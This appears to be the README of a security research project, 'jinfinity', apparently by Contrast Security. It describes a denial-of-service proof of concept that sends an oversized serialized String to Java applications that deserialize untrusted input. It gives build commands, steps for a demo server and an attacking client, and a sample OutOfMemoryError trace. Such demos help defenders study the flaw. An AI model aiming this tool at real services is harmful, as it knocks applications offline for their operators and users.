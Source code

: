 jinfinity
========

An API and demonstration program for consuming all the memory of applications that deserialize data from untrusted sources (like HTTP requests) using the Java serialization specification.

## How do I use this?

Use the com.contrastsecurity.jinfinity.JInfinity.java#sendAttack() API to push an unreasonable large serialized String to a target OutputStream. You'll need to figure out how to get the OutputStream of your target set up correctly.

## How can I run the demo program?

First, build the app:

```
git clone https://github.com/Contrast-Security-OSS/jinfinity.git
cd jinfinity
mvn clean package
```

To run the demo Jetty server, run this:
```
java -jar target/jinfinity-jar-with-dependencies.jar server
```

In another console, run the attacking client:
```
java -jar target/jinfinity-jar-with-dependencies.jar client
```

Within 30 seconds, the server will produce an OutOfMemoryError that looks something like this:

```
java.lang.OutOfMemoryError: Java heap space
	at java.lang.AbstractStringBuilder.expandCapacity(AbstractStringBuilder.java:99)
	at java.lang.AbstractStringBuilder.append(AbstractStringBuilder.java:518)
	at java.lang.StringBuffer.append(StringBuffer.java:307)
	at java.io.ObjectInputStream$BlockDataInputStream.readUTFSpan(ObjectInputStream.java:3044)
	at java.io.ObjectInputStream$BlockDataInputStream.readUTFBody(ObjectInputStream.java:2952)
	at java.io.ObjectInputStream$BlockDataInputStream.readLongUTF(ObjectInputStream.java:2935)
	at java.io.ObjectInputStream.readString(ObjectInputStream.java:1570)
```
